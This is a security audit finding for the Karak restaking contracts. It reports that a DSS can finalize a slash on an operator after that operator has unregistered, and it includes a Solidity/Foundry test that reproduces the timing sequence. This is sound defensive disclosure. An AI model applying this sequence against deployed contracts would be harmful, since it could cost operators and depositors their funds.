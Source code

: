 ## [H] Violation of Invariant Allowing DSSs to Slash Unregistered Operators

Operators select DSSs to allocate their funds to, and for each DSS, they can choose a list of vaults to stake. The selected vaults are fully staked to the chosen DSS.

To unstake, the operator must adhere to a `MIN_STAKE_UPDATE_DELAY` of 9 days, which prevents front-running a slashing event. An operator can fully unregister from a DSS once all the vaults are unstaked. The DSS has the ability to slash any malicious behaviour that occurred before the withdrawal initiation for up to 7 days.

The problem is, the current implementation breaks one of the main invariants (confirmed by sponsors).

* [**Only DSSs an operator is registered with can slash said operator**](https://code4rena.com/audits/2024-07-karak-restaking#top:\~:text=Only%20DSSs%20an%20operator%20is%20registered%20with%20can%20slash%20said%20operator)

Consider the following scenario:

* Operator calls the [requestUpdateVaultStakeInDSS](repos/2024-07-karak/src/Core.sol#L130) function to unstake Vault 1 from DSS, initiating the 9-day `MIN_STAKE_UPDATE_DELAY`.
* After 8 days, the DSS calls the [requestSlashing](repos/2024-07-karak/src/Core.sol#L220) function on Operator’s Vault 1, starting the 2-day `SLASHING_VETO_WINDOW`.
* After 1 day, the operator calls the [finalizeUnstaking](repos/2024-07-karak/src/Core.sol#L248C14-L248C30) function to finalize unstaking Vault 1 from DSS and the [unregisterOperatorFromDSS](repos/2024-07-karak/src/Core.sol#L113C14-L113C39) function to unregister from DSS.
* After another day, the DSS (or anyone) calls the [finalizeSlashing](repos/2024-07-karak/src/Core.sol#L248C14-L248C30) function to finalize the slash on the operator, who is no longer registered with the DSS.

### Proof Of Concept

```solidity
    function test_slash_unregistered_operator() public {
        // register operator to dss, deploy vaults, stake vaults to dss
        stake_vaults_to_dss();
        // check if operator is registered to dss
        assertEq(true, core.isOperatorRegisteredToDSS(operator, dss));
        // unstake vaults from dss
        address[] memory operatorVaults = core.fetchVaultsStakedInDSS(operator, dss);
        Operator.StakeUpdateRequest memory stakeUpdate =
            Operator.StakeUpdateRequest({vault: operatorVaults[0], dss: dss, toStake: false});
        Operator.StakeUpdateRequest memory stakeUpdate2 =
            Operator.StakeUpdateRequest({vault: operatorVaults[1], dss: dss, toStake: false});
        vm.startPrank(operator);
        Operator.QueuedStakeUpdate memory queuedStakeUpdate = core.requestUpdateVaultStakeInDSS(stakeUpdate);
        Operator.QueuedStakeUpdate memory queuedStakeUpdate2 = core.requestUpdateVaultStakeInDSS(stakeUpdate2);
        vm.stopPrank();
        skip(8 days);
        // dss request slashing
        uint96[] memory slashPercentagesWad = new uint96[](2);
        slashPercentagesWad[0] = uint96(10e18);
        slashPercentagesWad[1] = uint96(10e18);
        SlasherLib.SlashRequest memory slashingReq = SlasherLib.SlashRequest({
            operator: operator,
            slashPercentagesWad: slashPercentagesWad,
            vaults: operatorVaults
        });
        vm.startPrank(address(dss));
        SlasherLib.QueuedSlashing memory queuedSlashing = core.requestSlashing(slashingReq);
        vm.stopPrank();
        skip(1 days);
        vm.startPrank(operator);
        // finalize unstake and unregister operator from dss
        core.finalizeUpdateVaultStakeInDSS(queuedStakeUpdate);
        core.finalizeUpdateVaultStakeInDSS(queuedStakeUpdate2);
        core.unregisterOperatorFromDSS(dss, "");
        vm.stopPrank();
        skip(1 days);
        // check if operator is unregistered from dss
        assertEq(false, core.isOperatorRegisteredToDSS(operator, dss));
        // finalize slashing on unregistered operator
        core.finalizeSlashing(queuedSlashing);
    }
```

### Impact

The current implementation allows a DSS to finalize a slash on an operator even after the operator has unregistered from the DSS. This breaks the intended invariant that only DSSs an operator is registered with can slash that operator.

Additionally, new users depositing into the DSS may be unaware of the pending slash because the operator is no longer registered with the DSS, leading to a potential loss on deposits.



 
